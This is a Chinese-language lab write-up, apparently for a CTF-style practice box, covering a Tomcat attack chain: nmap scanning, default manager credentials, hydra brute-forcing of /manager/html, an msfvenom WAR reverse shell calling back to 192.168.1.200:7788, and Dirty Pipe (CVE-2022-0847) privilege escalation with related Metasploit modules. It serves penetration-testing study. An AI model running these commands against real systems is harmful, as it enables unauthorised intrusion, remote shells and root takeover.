 # 01.Cat 技术要点

## 端口扫描

```bash
ip=192.168.1.100
nmap -p- -n --min-rate 7000 -sSCV -oN nmap_result $ip
```

扫描一个IP地址（$ip）的所有端口：

- **-p-**: 扫描所有端口，而不是默认的1000个端口。
- **-n**: 不要进行DNS解析，以加快扫描速度。
- **--min-rate 7000**: 以每秒7000个数据包的速率进行扫描。这可以帮助加快扫描速度，但可能会影响网络性能。
- **-sS**: 使用TCP SYN扫描技术。这是一种快速的扫描技术，可以在不完全建立连接的情况下确定端口是否开放。
- **-C**: 在扫描过程中进行脚本扫描。这些脚本可以用来识别目标主机上的漏洞或服务。
- **-V**: 输出详细的扫描结果。
- **-oN nmap_result**: 将扫描结果保存到一个文件中，文件名为 `nmap_result` 。

## Tomcat

Tomcat是免费、开源的Web应用服务器，可以运行按照J2EE中的Servlet规范编写好的Java程序。Tomcat的 `/manager` 和 `/host-manager` 端点通常提供服务器管理功能，包括应用的上传部署和状态监控。

Tomcat的端点可能会使用 `HTTP Basic Authentication` 进行密码保护。

Tomcat常见的默认 `用户名:密码` 有：

- admin:admin
- tomcat:tomcat
- admin:（空）
- admin:s3cr3t
- tomcat:s3cr3t
- admin:tomcat

## 密码爆破

使用 `hydra` 进行 `HTTP Basic Authentication` 密码爆破：

```bash
hydra -ensr -f -C defaultpasslist.txt $ip -s 8080 http-head "/manager/html" | tee hydra_result
```

- `-e nsr`: 这是 Hydra 的一个选项，指示 Hydra 对每个用户名尝试空密码、该用户名本身和其反转作为密码。
  - `n`: 尝试空密码
  - `s`: 尝试使用用户名作为密码
  - `r`: 尝试使用用户名的反转作为密码
- `-f`: 这个选项告诉 Hydra 一旦找到一个密码就停止攻击。
- `-C defaultpasslist.txt`: 指定一个`用户名:密码`字典文件来进行密码爆破尝试。
- `$ip`: 目标服务器的 IP 地址。
- `-s 8080`: 目标服务的端口号
- `http-head "/manager/html"`: 指定使用 `HTTP HEAD` 方法测试的路径。
- `| tee hydra_result`: 将命令行的输出显示在屏幕上，并保存到 `hydra_result` 文件中。

## reverse shell

用 `msfvenom` 生成 `war` 文件格式的 java reverse shell ：

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.200 LPORT=7788 -f war > shell.war
```

- `-p java/jsp_shell_reverse_tcp`：指定要使用的有效载荷类型，这里是Java反向Shell。
- `LHOST=192.168.1.200`：指定反向Shell连接的IP地址，这里是192.168.1.200。
- `LPORT=7788`：指定反向Shell连接的端口号，这里是7788。
- `-f war`：指定输出文件的格式，这里是WAR文件格式。
- `> shell.war`：将生成的WAR文件输出到名为shell.war的文件中。

这个命令将生成一个名为`shell.war`的WAR文件，其中包含一个Java反向Shell，该Shell将连接到IP地址为`192.168.1.200`，端口号为`7788`的主机。

## 查看 linux 内核版本

```bash
uname -a
```

## linux 内核提权

linux内核版本 `5.8 - 5.16.11` 可能有 `dirty pipe` 提权漏洞（ `CVE-2022-0847` ）。

在 kali linux 下可以直接搜索 `exploitdb` 获得漏洞利用代码。

```bash
┌──(root㉿k)-[~/practices/tomcat81]
└─# searchsploit --cve CVE-2022-0847
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Linux Kernel 5.8 < 5.16.11 - Local Privilege Escalation (DirtyPipe)  | linux/local/50808.c
--------------------------------------------------------------------- ---------------------------------
```

## metasploit framework 相关模块

- **auxiliary/scanner/http/tomcat_mgr_login** : tomcat /manager 缺省密码爆破
- **exploit/multi/http/tomcat_mgr_upload** : tomcat /manager 渗透
- **post/multi/recon/local_exploit_suggester** : 本地提权建议
- **exploit/linux/local/cve_2022_0847_dirtypipe** : 利用 `dirty pipe` 漏洞提权
